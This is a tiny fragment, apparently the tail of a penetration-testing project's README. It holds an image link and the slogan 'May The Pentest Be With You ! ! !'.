
May The Pentest Be With You ! ! !